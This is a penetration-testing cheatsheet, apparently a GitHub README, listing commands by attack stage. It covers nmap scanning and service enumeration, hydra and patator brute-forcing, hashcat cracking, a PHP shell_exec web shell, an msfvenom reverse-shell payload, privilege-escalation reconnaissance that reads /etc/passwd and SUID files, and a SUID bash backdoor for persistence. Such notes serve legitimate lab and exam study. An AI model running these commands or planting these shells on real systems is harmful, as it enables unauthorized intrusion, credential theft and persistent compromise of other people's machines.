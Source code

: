 # cyberphor's Pentesting Cheatsheet

## Reconnaissance
### Ports
```bash
sudo nmap $TARGET -sS -sU -oN scans/$TARGET-nmap-initial
sudo nmap $TARGET -sS -sU -p- -oN scans/$TARGET-nmap-complete
```

## Enumeration
### Service Versions
```bash
sudo nmap $TARGET -sV -sC $(print-open-ports-from-nmap-scan scans/$NAME-nmap-complete) -oN scans/$NAME-nmap-versions
```

### Operating System
```bash
sudo nmap $TARGET -O -oN scans/$NAME-nmap-os
```

#### FTP
```bash
cd loot
touch README.too # create a file
ftp $TARGET 21 # login using anonymous:anonymous
put README.too # upload file created above (i.e. check if we have write privileges)
ls
binary 
get file.txt # download a file (i.e. check if we have read privileges)
mget * # download everything
exit
```

#### SSH
```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt  ssh://10.11.12.13
```

#### SMTP
```bash
sudo nmap $TARGET -p25 --script smtp-commands -oN scans/$NAME-nmap-scripts-smtp-commands
```

```bash
sudo nmap $TARGET -p25 --script smtp-enum-users --script-args smtp-enum-users.methods={VRFY,EXPN,RCPT} -oN scans/$NAME-nmap-scripts-smtp-enum-users
```

```bash
smtp-user-enum -M VRFY -U /usr/share/wordlists/metasploit/unix_users.txt -t $TARGET
```

Automated enumeration of exploitable SMTP vulnerabilities.
```bash
sudo nmap $TARGET -p25 --script smtp-vuln* -oN scans/mailman-nmap-scripts-smtp-vuln
# replace the lines above with the actual scan results
```

### HTTP
```bash
sudo nmap $TARGET -p80 --script http-shellshock -oN scans/$NAME-nmap-scripts-http-shellshock-80
```

```bash
dirb http://$TARGET:80 /usr/share/wordlists/dirb/big.txt -z10 -o scans/$NAME-dirb-big-80
```

```bash
dirsearch -u $TARGET:$PORT -o $FULLPATH/$NAME-dirsearch-80
```

```bash
nikto -h $TARGET -p $PORT -T 2 -Format txt -o scans/$NAME-nikto-misconfig-80
```

### RPC
```bash
rpcclient -U '' $TARGET
srvinfo
netshareenum
```

### NetBIOS
```bash
nbtscan $TARGET
```

### SMB
The following SMB shares were discovered using Smbclient.
```bash
smbclient -L $TARGET
```

The SMB shares discovered have the following permissions.
```bash
smbmap -H $TARGET
```

Download files.
```bash
cd loot
smbclient \\\\$TARGET\\$SHARE
prompt
mget *
```

```bash
# check if vulnerable to EternalBlue
sudo nmap $TARGET -p445 --script smb-vuln-ms17-010 -oN scans/$NAME-nmap-scripts-smb-vuln-ms17-010
```

The target is NOT vulnerable to SambaCry.
```bash
# check if vulnerable to SambaCry
sudo nmap $TARGET -p445 --script smb-vuln-cve-2017-7494 --script-args smb-vuln-cve-2017-7494.check-version -oN scans/$NAME-nmap-scripts-smb-vuln-cve-2017-7494
```

### SQL
```bash
mysql -u $USER -h $TARGET
```

### RDP
```bash
sudo nmap $TARGET -p3389 --script rdp-ntlm-info -oN scans/$NAME-nmap-scripts-rdp-ntlm-info
```

```bash
rdesktop -u administrator $TARGET
```

### Postgres
```bash
psql -U postgres -p 5437 -h $TARGET # postgres:postgres
SELECT pg_ls_dir('/');
```

## Gaining Access
### Password Guessing  
#### Default Credentials
```bash
# anonymous:anonymous
# guest:guest
# admin:admin
# admin:adminadmin
```

#### Hydra
```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt $TARGET http-post-form "/phpmyadmin/index.php?:pma_username=^USER^&pma_password=^PASS^:Cannot|without"
```

#### Patator
```bash
patator http_fuzz url=http://$TARGET/$LOGIN method=POST body='username=FILE0&password=FILE1' 0=usernames.txt 1=/usr/share/wordlists/rockyout.txt -x ignore:fgrep=Unauthorized
```

#### Hashcat
```hash
# modes - SHA256: 1400
# attacks - Dictionary: 0
hashcat -m $MODE -a $ATTACK /path/to/hashes.txt /usr/share/wordlists/rockyou.txt 
hashcat -m 1400 -a 0 /path/to/hashes.txt /usr/share/wordlists/rockyou.txt 
```

### Remote File Inclusion
```bash
# find a way to upload a PHP command shell
vim cmd.php
<?php echo shell_exec($_GET['cmd']); ?>
```

### Reverse Shell
```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=$TARGET LPORT=$PORT -f elf -o rshell.elf
```

## Maintaining Access

### Privilege Escalation
#### Linux
```bash
whoami
uname -a
dpkg -l # debian
rpm -qa # red hat
pacman -Qe # arch
cat /etc/passwd
find / -perm -u=s -type f 2> /dev/null
cat /etc/crontab
ps aux | grep -v "\[" | grep root
```

#### Windows
```bash
whoami
whoami /priv
net user
systeminfo
dir c:\
wmic service get name,startname
cd "c:\program files"
cd "c:\program files (x86)"
wmic service get name,pathname,startname | findstr "Program Files"
cacls *.exe
```

### Persistence
#### Rootbash
Credit: Tib3rius
```bash
# as root, create a copy of BASH and then set the SUID-bit
# to resume root-access execute the new binary using -p
cp /bin/bash /tmp/bash; chown root /tmp/bash; chmod u+s /tmp/bash; chmod o+x /tmp/bash
/tmp/bash -p
```